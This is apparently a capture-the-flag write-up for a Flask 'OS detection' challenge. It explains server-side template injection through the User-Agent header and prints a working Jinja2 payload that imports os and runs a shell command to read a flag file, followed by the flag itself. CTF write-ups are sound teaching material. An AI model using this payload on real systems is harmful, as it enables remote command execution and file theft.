 ## Question
A new service has been deployed that uses advanced algorithms to detect your Operating System. What an invasion of privacy! Can you pwn it?

## Solution
So this problem is basically a SSTI (Server Side Template Injection) problem where the website detects your os via your user-agent in the headers section. This being a flask app (from source code) we see the altering the user-agent header gives us different results.
![osdetect](https://github.com/user-attachments/assets/c998d4af-b141-4e84-8f52-0edd13f9bbc6)

so writing ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag/flag.txt').read()}} ``` in the user-agent header, you should get something like this:
![osdetectflag](https://github.com/user-attachments/assets/2fb6fe07-d93c-4b6f-860b-f6c67eab793e)

flag: ```PP{h4ck3r-OS-d3t3ct3d::_8pKiuAOG5PM} ```



